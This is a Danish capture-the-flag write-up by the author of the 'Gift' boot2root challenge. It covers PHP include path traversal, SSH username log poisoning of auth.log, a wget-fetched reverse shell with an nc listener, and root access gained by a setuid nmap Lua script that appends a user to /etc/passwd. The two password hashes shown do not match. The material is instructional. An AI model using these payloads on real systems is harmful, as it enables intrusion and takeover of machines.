


# Gift
Dette er mit writeup for Gift, en challenge som jeg havde til hensigt skulle være nem, men endnu engang i år kom jeg til at fejlvurdere hvad der er `nemt` og hver der nok er nærmere `medium-svært`. 

Det er ikke min hensigt at fucke med nogens opfattelse af hvad de kan, sorry for den dårlige sværhedsgrads-labeling :-(

(I dette writeup løser jeg opgaven fra en lokalt kørende container, derfor vil du se `localhost` i stedet for `gift.hkn` på screenshots)

Ihvertfald er `Gift` en `boot2root` challenge hvor hensigten er at udnytte et `php include` statement til at udføre `log poisoning` igennem  `auth.log`.

Uanset hvilken opgave du laver, er der altid en god idé at starte med et nmap.

```
root@d993e6b1ec7c:/# nmap 172.17.0.2
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-07 18:47 UTC
Nmap scan report for 172.17.0.2
Host is up (0.0000050s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 13.07 seconds
```

Hvilket viser `ssh` åben på port 22 og vores `webserver` på 8000.

Webserveren viser dope ass billeder af henholdsvis mig og mrbeef (skud ud til amar også).

Hvis man trykker `view source` kan man se at der er et link til backup som viser source koden.

```php
<!DOCTYPE html>
<style>
.container {
  display: flex;
  justify-content: center;
}
.center{
    position: absolute;
}
</style>
<html>
<body>
<div class="container">
  <div class="center"><h1>Er det MrBeef eller 0xlimE? Det er ihvertfald giftigt</h1></div>
    <br>


<?php
$pics = range(1,13);
echo("<div class='center' style='width:1000px; height:1000px; margin-top: 100px; background-image: url(\"pics/".$pics[rand(0, count($pics) - 1)].".png\");'></div>");
if( isset($_GET['adminDebug']))
{   
    include("admin/".$_GET['adminDebug']);
}

?>

</div>

<div style="display: none;">
<a href ="secretSAUCE/src.zip">Source here</a>
</div>
</body>
</html>
```

Der er et farligt farligt `php include` parret med `path traversal` se mere her: https://medium.com/@emmapinheiro42/php-include-ignore-4a3ba81371af

Vi kan prøve at inkludere `/var/log/auth.log` for at se om vi kan `forgifte` den log.


Yes det virker. Vores næste step er at få noget php kode ind i loggen, som vi kan udnytte.

Vi logger ind med

```
ssh '<?php echo(system($_GET["a"])); ?>'@gift.hkn
```

skriver et forkert password, og prøver at inkludere loggen igen med parameter fra payload ovenover.



ok vi har command execution.

Lad os få en mere stabil reverse shell, jeg har god erfaring med at skrive den her php revshell til en fil og bruge den https://gist.github.com/rshipp/eee36684db07d234c1cc

Lav en fil på din angriber maskine, kald den for `rev.php` og læg din egen ip ind, host den med en python3 server `python3 -m http.server 80` og hent den ned til target ved at kalde.

```
http://gift.hkn:8000/?adminDebug=../../../../../var/log/auth.log&a=wget http://DIN IP HER/rev.php
```

herefter kan du trigger din reverse shell ved først at køre `nc -lvnp 1234` på din angriber maskine, og så gå til `gift.hkn/rev.php`




ok så er vi på maskinen.

Her laver du så standard linux privesc enum, jeg plejer at bruge linpeas. https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Herfra finder du så ud af at `nmap` er installeret på maskinen med `setuid` bit på.


Det betyder at vi kan køre nmap som root brugeren. 

Vi tjekker gtfobins ud.

https://gtfobins.github.io/gtfobins/nmap/

Ok, ser ud til at vi har root read, men vi ved ikke hvad flaget hedder. Vi har også root write, så lad os tilføje en root bruger med et password vi kender.

her er en god artikel om at skrive til /etc/passwd
https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/ 

vi vil gerne bruge ovenstående taktik til at skrive en ny bruger, som har root access og som har et password vi kender. Vi kan generere hash for passwordet `a` således:


Ok, så kigger vi lige på det angreb de beskriver på gtfobins til read.

```bash
TF=$(mktemp)
echo 'local f=io.open("file_to_read", "rb"); print(f:read("*a")); io.close(f);' > $TF
nmap --script=$TF
```

Det her kan vi modificere en smule til at skrive til `/etc/passwd`

```bash
TF=$(mktemp) && echo 'local f=io.open("/etc/passwd", "ab"); f:write("\nroot3:OEE5bK0hmfPj.:0:0:root:/root:/bin/bash"); io.close(f);' > $TF && nmap --script=$TF
```

**main points**
* we change the file to `/etc/passwd`
* we change `rb` from read bytes to `ab` append bytes
* we change `read` to `write` .
* we change the payload to write `\nroot3:EN0jGZIeW.SKM:0:0:root:/root:/bin/bash`

Vi kan køre exploit på remote og prøve at privesc


lol fuck, ok vi skal have en upgraderet shell, her er en god guide til at få en bedre shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/


vi kunne også have lagt en ny ssh nøgle i vores bruger sssh mappe

nu prøver vi

```bash
su root3
Password: a
```

cool vi er root og hopper til `/root` og flag!


sry for at have sagt det her er nemt, det er min fejl :(